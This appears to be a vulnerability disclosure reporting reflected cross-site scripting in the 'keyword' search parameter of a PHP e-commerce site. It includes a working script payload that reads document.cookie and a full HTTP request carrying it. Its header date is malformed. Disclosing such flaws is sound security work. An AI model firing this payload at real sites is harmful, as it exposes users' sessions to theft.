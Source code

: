# E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Exploit Title:** E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-site-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2019/10/E-COMMERCE_SITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
E-commerce Site 1.0 allows Reflected Cross-site Scripting via parameter 'keyword' in "/ecommerce/search.php". E-commerce Site is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Search for Product: "http://localhost/ecommerce/search.php"
+ Use this payload: `<video/src=x onerror=alert(document.cookie)>`
+ Fill the payload and Enter.
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'keyword' parameter:
```
POST /ecommerce/search.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ml92pvb86qoqm8rjs4vhgk86v7
Referer: http://localhost/ecommerce/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

keyword=%3Cvideo/src=x%20onerror=alert(document.cookie)%3E%20
```

+ Example payload:
```
<video/src=x onerror=alert(document.cookie)>
```
![1-1](https://github.com/h4md153v63n/CVEs/assets/5091265/85674d4d-34f4-4dc3-95b4-b010401dd04e)
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/5225831f-4eef-41df-bd4e-c9e41901dce0)
